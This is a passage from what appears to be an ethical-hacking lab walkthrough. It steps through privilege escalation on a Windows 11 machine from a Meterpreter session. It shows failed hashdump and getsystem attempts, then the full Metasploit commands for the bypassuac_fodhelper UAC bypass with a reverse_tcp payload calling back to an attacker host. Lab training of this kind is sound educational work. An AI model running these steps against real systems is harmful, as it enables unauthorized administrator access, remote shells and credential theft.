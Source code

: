 	52. The command fails to dump the hashes from the SAM file located on the Windows 11 machine and returns an error stating Insufficient privileges to dump hashes!.
	53. From this, it is evident that the Meterpreter session requires admin privileges to perform such actions.
	54. Now, we shall try to escalate the privileges by issuing a getsystem command that attempts to elevate the user privileges.
The command issued is:
	• getsystem -t 1: Uses the service – Named Pipe Impersonation (In Memory/Admin) Technique.
	55. The command fails to escalate privileges and returns an error stating Operation failed.
	
	56. From the result, it is evident that the security configuration of the Windows 11 machine is blocking you from gaining unrestricted access to it.
	57. Now, we shall try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.
In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a bypassuac_fodhelper exploit.
	58. Type background and press Enter. This command moves the current Meterpreter session to the background.
	
	59. Now, we will use the bypassuac_fodhelper exploit for windows. To do so, type use exploit/windows/local/bypassuac_fodhelper and press Enter.
	
	60. Here, you need to configure the exploit. To know which options you need to configure in the exploit, type show options and press Enter. The Module options section appears, displaying the requirement for the exploit. Observe that the SESSION option is required, but the Current Setting is empty.
	
	61. Type set SESSION 1 (1 is the current Meterpreter session which is running in the background) and press Enter.
	
	62. Now that we have configured the exploit, our next step will be to set and configure a payload. To do so, type set payload windows/meterpreter/reverse_tcp and press Enter. This will set the meterpreter/reverse_tcp payload.
	63. The next step is to configure this payload. To see all the options, you need to configure in the exploit, type show options and press Enter.
	
	64. The Module options section appears, displaying the previously configured exploit. Here, observe that the session value is set.
	65. The Payload options section displays the requirement for the payload.
Observe that:
	• The LHOST option is required, but Current Setting is empty (here, you need to set the IP Address of the local host, (here, the Parrot Security machine)
	• The EXITFUNC option is required, but Current Setting is already set to process, so ignore this option
	• The LPORT option is required, but Current Setting is already set to port number 4444, so ignore this option
	
	66. To set the LHOST option, type set LHOST 10.10.1.13 and press Enter.
	67. To set the TARGET option, type set TARGET 0 and press Enter (here, 0 indicates nothing, but the Exploit Target ID).
In This task, 10.10.1.13 is the IP Address of the attacker machine (here, Parrot Security).
	68. You have successfully configured the exploit and payload. Type exploit and press Enter. This begins to exploit the UAC settings on the Windows 11 machine.
	69. As you can see, the BypassUAC exploit has successfully bypassed the UAC setting on the Windows 11 machine; you have now successfully completed a Meterpreter session.
	